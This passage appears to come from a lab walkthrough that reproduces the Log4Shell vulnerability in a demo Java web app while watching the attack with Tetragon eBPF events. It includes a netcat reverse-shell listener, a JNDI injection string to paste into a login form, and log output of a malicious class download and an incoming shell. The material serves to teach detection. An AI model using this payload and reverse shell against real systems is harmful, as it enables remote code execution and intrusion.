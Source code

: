 [Terminal 3] Run the `netcat` listener that listens on port `9001` and accepts the reverse shell
connection:
```bash
nc -lvnp 9001
```

[Terminal 3] The output should be something like this:
```bash
Listening on 0.0.0.0 9001
```

[Terminal 1] Start to observe the events from Tetragon:
```bash
kubectl exec -it -n kube-system hubble-enterprise-r495v -c enterprise -- /bin/bash
hubble-enterprise getevents -o compact --pod java-webapp
```

[Web Browser] Paste the created JNDI lookup string `${jndi:ldap://localhost:1389/a}` to either the username or
password field of the web application, then click on `Login`:

![Screenshot](log4j_malicious_string.png)

[Terminal 2] You should see that the JNDI lookup actually connected to the LDAP, server and downloaded the
malicious `Exploit.class` Java class:

```bash
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
127.0.0.1 - - [04/Mar/2023 15:19:05] "GET /Exploit.class HTTP/1.1" 200 -
```

[Terminal 3] which then sent the reverse shell to the netcat listener:
```bash
root@scale-2023-log4j-ebpf-vm:/home/natalia# nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53566
```
